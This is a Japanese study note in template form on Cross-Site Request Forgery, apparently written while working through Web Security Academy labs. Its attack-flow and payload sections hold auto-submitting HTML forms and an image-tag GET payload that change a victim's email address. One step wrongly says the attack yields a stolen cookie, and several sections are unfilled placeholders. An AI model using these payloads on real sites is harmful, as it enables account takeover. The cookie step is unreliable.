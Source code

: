 # 脆弱性名: [Cross site Request Forgery (CSRF)]  

## 1️ 概要 / 定義
- クロスサイトリクエストフォージュリーは、攻撃者がユーザに意図しない操作を実行させることを可能にするウェブセキュリティの脆弱性。

## 2️ 攻撃の前提条件
- [関連するアクション]
	- 攻撃者がアプリケーション内で何らかのアクションを誘発する必要がある。
		- 特権での操作や自身のパスワード変更等
- [Cookieベースのセッション処理]
	- アクションの実行には1つ以上HTTPリクエスト発行が含まれアプリケーションはリクエストを送信したユーザを識別するために必要。
- [予測不可能なリクエストパラメータがないこと]
	- 攻撃者がすべてのパラメータの値を知っている必要がある。
		- CSRFにならない場合:これはパスワード変更であった場合、現在のパスワードを知らないとリクエストが処理されてないためそもそもCSRFの対象にはならないという話。
		- CSRFになる場合:

## 3️ 影響
- Webアプリでそのアカウントで許可されている操作はできてしまう。

## 4️ 何ができるか（攻撃成功時の具体例）
- 取得したユーザの権限によって変わる。

## 5️ 攻撃フロー（手順化）
1. [ステップ1：攻撃者がWebページを作成する。]
```
<html>
    <body>
        <form action="https://vulnerable-website.com/email/change" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```
1. [ステップ2：ユーザに1で作成したページを踏ませる。]
2. [ステップ3：1で仕込んだメールアドレスに変更できていればOK]
3. [ステップ4 : 盗んだクッキーを使用してログインする。]
- **目的は「どうすれば成功するか」を他人に説明できるように書くこと**

## 6️ 検出方法（診断手法）
- 手動：
  - [具体的にどのツールを使い、どう検証するか]
- 自動：
  - PoC作成をしてくれるツール
	  - https://github.com/0xInfection/CSRFPocGenerator.git
  - [どういう設定や条件で検出できるか]

## 7️ 判定基準
- [何をもって脆弱と判定するか]
- [ガイドライン（OWASP、CWEなど）や一般的な基準に照らして明文化]
- 例：認証なしで閲覧可能 / 特定操作が実行可能 / トークンがない 等

## 8️ 防御策 / 緩和策
- 技術的対策：
  - 
- 設計・運用上の対策：
  - [誤った設計を避けるためのガイドラインや注意点]

## 9 Payload
```
▼Getの場合
<img src="https://vulnerable-website.com/email/change?email=pwned@evil-user.net">

▼Postの場合
<form method="POST" action="https://0a47002104cc99ee801e039900c40056.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="csrf2@web-security-academy.net">
</form>
<script>
        document.forms[0].submit();
</script>
```

---
## 【補足】理解すべき背景
- なぜこの脆弱性が成立するのか：
  - [仕様上、設計上、実装上、どの要素が原因か]
- よくある失敗事例：
  - [実際に企業や現場でありがちなミス]
- 関連する脆弱性・攻撃手法：
  - [他の脆弱性との関連性]